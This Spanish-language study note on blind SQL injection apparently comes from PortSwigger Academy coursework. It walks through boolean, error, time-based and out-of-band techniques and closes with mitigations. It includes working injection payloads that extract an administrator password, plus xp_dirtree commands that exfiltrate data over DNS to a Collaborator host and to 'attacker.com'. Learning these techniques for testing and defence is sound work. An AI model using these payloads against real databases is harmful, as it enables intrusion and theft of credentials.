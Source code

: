 # Blind SQL Injection



Una **Blind SQL injection** ocurre cuando la aplicación es vulnerable a inyección SQL, pero **no muestra en la respuesta HTTP** ni los resultados de la query ni mensajes de error de la base de datos.
Esto imposibilita técnicas visibles como ataques con `UNION`, pero aún se puede explotar mediante otras estrategias.

---

## Técnicas de explotación en Blind SQLi

### 1. Condicionales en las respuestas (Boolean-based)

La aplicación cambia de comportamiento según si la condición inyectada es verdadera o falsa.
Ejemplo con cookie `TrackingId`:

```http
Cookie: TrackingId=xyz' AND '1'='1   --> devuelve "Welcome back"
Cookie: TrackingId=xyz' AND '1'='2   --> no devuelve "Welcome back"
```

Esto permite inferir bit a bit datos sensibles (ej. password del admin) con funciones como `SUBSTRING`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)='s
```

Metodología compoleta: 
[Boolean_based](https://github.com/juanpoch/PortSwigger_Academy/blob/main/Server-side/1_SQL_injection/3_Blind_SQLi/Boolean_based.md)

### 2. Basada en errores (Error-based)

Si la aplicación filtra los resultados pero **sí muestra errores del motor SQL**, podemos usarlos para inferir datos.

* **Condicionales con errores**:

```sql
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Si `1=1`, se produce error de división por cero → respuesta diferente.

* **Errores verbosos**:
  Malas configuraciones pueden devolver el query entero o incluso datos. Ejemplo:

```sql
CAST((SELECT password FROM users) AS int)
```

Error devuelto:

```
ERROR: invalid input syntax for type integer: "S3curePwd"
```

Esto convierte una blind SQLi en visible.

### 3. Basada en tiempos (Time-based)

Si la app no muestra errores y el comportamiento no cambia, se fuerza un **retraso condicional**:

* **MSSQL**:

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--   -- demora 10s
'; IF (1=2) WAITFOR DELAY '0:0:10'--   -- sin demora
```

* **MySQL**:

```sql
' OR IF(1=1, SLEEP(5), 0)--
```

La diferencia en el tiempo de respuesta revela si la condición es verdadera.

Se pueden extraer caracteres de forma binaria:

```sql
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='Administrator')>'m' WAITFOR DELAY '0:0:5'--
```

### 4. Out-of-band (OAST)

Si la query se ejecuta de forma asincrónica o no altera la respuesta/tiempo, se puede provocar una **interacción externa (DNS, HTTP, SMB)** hacia un servidor controlado por el atacante.

Ejemplo en MSSQL con Burp Collaborator:

```sql
'; exec master..xp_dirtree '//abc123.burpcollaborator.net/a'--
```

Genera una consulta DNS → detectada por Collaborator.

Incluso se puede exfiltrar datos:

```sql
'; DECLARE @p varchar(1024);
   SET @p=(SELECT password FROM users WHERE username='Administrator');
   exec('master..xp_dirtree "//'+@p+'.abc123.burpcollaborator.net/a"')--
```

La contraseña queda embebida en el subdominio.

---

## Ejemplos de payloads por técnica

* **Boolean-based**:

```
' AND '1'='1--
' AND SUBSTRING((SELECT user()),1,1)='r'--
```

* **Error-based**:

```
' AND CAST((SELECT database()) AS int)--
```

* **Time-based**:

```
' OR IF(ASCII(SUBSTRING(user(),1,1))>77, SLEEP(5), 0)--  # MySQL
```

* **Out-of-band**:

```
'; exec master..xp_dirtree '//attacker.com/a'--
```

---

## Mitigación

Las medidas son las mismas que para SQLi clásica:

* **Usar consultas parametrizadas**.
* No construir SQL con concatenación de input.
* **Principio de menor privilegio** para la cuenta de BD.
* **Errores genéricos para el cliente**, logs detallados en servidor.
* Monitoreo de patrones anómalos y WAF.

---
